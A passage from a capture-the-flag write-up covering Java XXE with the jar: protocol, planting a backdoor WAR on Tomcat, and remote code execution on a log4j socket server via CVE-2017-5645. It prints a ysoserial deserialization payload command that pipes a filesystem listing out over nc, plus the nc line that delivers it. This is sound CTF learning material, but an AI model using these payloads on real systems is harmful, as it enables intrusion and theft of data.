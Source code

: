In fact, JAVA XXE also supports `jar:` protocol. Refer to [XML Schema, DTD, and Entity Attacks P.15 - 17](https://www.vsecurity.com/download/publications/XMLDTDEntityAttacks.pdf) by Timothy D. Morgan (@ecbftw). 

> The attack works by sending an initial request which asks Xerces to fetch a jar URL from a web server controlled by
the attacker.  Java downloads this file to a designated temporary directory using a randomly selected file name.

Since we can include any file in the server, it's easy to locate the temporary JAR file in `/opt/tomcat/temp`. One can leverage this technique to create temporary WAR file, and the use `deploy?war=file:/opt/tomcat/temp/...` to upload the backdoor.

I didn't try this but I can see the temporary file in `/opt/tomcat/temp`. It's likely this challenge can also be solved in this way.

#### Failed Attempts

- Bypass gopher replacement
    - Percent-encoding doesn't work because gopher will replace it. Sending raw byte doesn't work either due to XML parsing failure.
    - XML escape characters `#&x60;` doesn't work either.
    - Utilize XML encode. Maybe we can find a encoding supporting raw byte?
- Deploy application using HTTP
    - Because in the document, the war is described as a `java.net.JarURLConnection` class. This class should support HTTP so I tried this `deploy?war=http://` , `deploy?war=jar:http://` but none of them works.
    

### Message Board III (log server RCE)

The step 3 is to pwn the Apache log4j server in LAN. Let's first retrieve some information:

- `/etc/hosts`: We see this line `10.133.70.13 log4jserver.local`
- `log4j2.properties`: Sorry I forget the exact path. The file is in somewhere in `/opt/tomcat`:
```
log4j.rootLogger=DEBUG, server 
# to connect to the remote server 
log4j.appender.server=org.apache.log4j.net.SocketAppender  
# set set that layout to be SimpleLayout 
log4j.appender.server.layout=org.apache.log4j.SimpleLayout   
log4j.appender.server.RemoteHost=log4jserver.local
log4j.appender.server.Port=1337
```

Also, the log4jserver has firewalls. It can only communicate with this server of the challenge.

Google `log4j rce`. We found [CVE-2017-5645](https://github.com/pimps/CVE-2017-5645).

```
java -jar ysoserial-modified.jar CommonsCollections6 bash 'find / | nc 10.133.70.7 1234' > payload

# upload the payload to the challenge server
cat payload | nc log4jserver.local 1337
```

Get the flag easily! `CTF-BR{<3<3<3_SERIALIZATION_IS_LOVE_<3<3<3}`
